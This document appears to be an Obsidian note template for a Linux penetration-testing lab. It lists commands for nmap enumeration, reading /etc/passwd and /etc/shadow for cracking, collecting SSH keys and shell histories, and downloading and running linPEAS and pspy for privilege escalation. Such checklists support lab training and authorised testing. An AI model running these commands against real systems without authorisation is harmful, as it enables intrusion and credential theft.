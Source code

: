 #show #linux
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_A_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

# Enumeration

```bash
export hip="";nmap --top-ports 30 $hip
```

```bash
i="$hip";sudo nmap --osscan-guess -A -p- $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html && sudo nmap -sUV --top-ports 100 $i -oN 0_udp_top100.txt
```
With ProxyChains: `sudo proxychains nmap -sT -A --osscan-limit --top-ports 100 -Pn -n $hip -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html`
> Then, create services templates.

# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `cat /home/$(id -un)/local.txt`
	

Upgrade [[1_shells#Upgrades]]
	
##### Users
```bash
cat /etc/passwd; cat /etc/shadow; w
```
	
`unshadow passwd shadow > unshadowed.txt` 
##### Network
```bash
ip a; /sbin/route; netstat -anp; sudo iptables -S
```
	
##### Interesting files
```bash
echo -e "\n## KEYS: ##"; ls /home/*/.gpg/; ls /home/*/.ssh/; echo -e "\n## HISTORY: ##"; cat /home/*/.*_history; echo -e "\n## GIT: ##"; find / -name ".git" 2>/dev/null | cd | git config --list 2>/dev/null; echo -e "\n## MAIL: ##"; ls -alh /var/mail/
```
	
##### Home folder
```bash
ls -al /home/*/; ls -al /root/; find / -user $(id -un) -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
```
	
# PrivEsc
Find Working Dir for attack
```bash
find / -writable -type d -print -quit 2>/dev/null
```
	

### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh &> linpeas.txt & less -r +F linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`
```bash
grep "CRON" /var/log/syslog; dpkg -l
```
Get commands run by non-accessible cronjobs and other tasks
```bash
wget -q https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 && chmod +x pspy32 && timeout 30s ./pspy32 | tr -s ' ' | cut -d ' ' -f 3-4,7- | sed -e 's/$/\x1b[m/' | perl -ne 'BEGIN{$|=1}; print unless ${$_}++'
```

##### Finding 1
